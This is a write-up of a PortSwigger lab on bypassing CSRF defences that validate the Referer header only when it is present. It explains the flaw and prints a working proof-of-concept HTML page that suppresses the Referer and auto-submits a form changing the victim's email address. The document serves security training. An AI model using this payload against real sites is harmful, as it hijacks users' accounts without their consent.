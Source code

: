 # [Lab: CSRF where Referer validation depends on header being present](https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present)

## Lab

This lab's email change functionality is vulnerable to CSRF. It attempts to block cross domain requests but has an insecure fallback.

To solve the lab, use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.

You can log in to your own account using the following credentials: wiener:peter

## Analysis

Some applications validate the Referer header when it is present in requests but skip the validation if the header is omitted.

## Solutions

craft CSRF exploit in a way that causes the victim user's browser to drop the Referer header in the resulting request. There are various ways to achieve this, but the easiest is using a META tag within the HTML page that hosts the CSRF attack:

`<meta name="referrer" content="never">`

poc:

```html
<html>
<head>
<meta name="referrer" content="never">
</head>
    <body>
        <form action="https://id.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="pwned@evil-user.net">
</form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
